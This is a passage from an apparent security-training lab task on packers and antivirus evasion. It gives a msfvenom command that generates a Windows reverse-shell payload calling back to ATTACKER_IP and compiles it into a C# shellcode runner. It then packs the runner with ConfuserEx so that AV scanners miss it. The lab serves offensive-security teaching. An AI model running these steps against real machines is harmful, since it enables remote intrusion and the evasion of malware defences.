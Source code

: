AV solutions, however, could still catch your packed application for a couple of reasons:

- While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
- At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

# Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at **`C:\Tools\CS Files\UnEncStagelessPayload.cs`**:

[*Full Payload Code (Click to read)*](Task%209%20Packers%2064e073a4ec524de1b4750bc0fcf281b1/UnEncStagelessPayload%20cs%2055610f64dfcf40a5ae1dea6a4cee0557.md)

This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new shellcode and put it into the **`shellcode`** variable of the code:

Command Prompt

```
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

You can then compile your payload in the Windows machine using the following command:

Command Prompt

```
C:\> csc UnEncStagelessPayload.cs
```

```bash
csc UnEncStagelessPayload.cs
```

> you need to copy the shell code generated into the cs file before runing the csc command
> 

Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on **`.NET`**. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will work. Be sure to select your desktop as the base directory, as shown in the image below. Once the base directory is set up, drag and drop the executable you want to pack on the interface, and you should end up with the following:
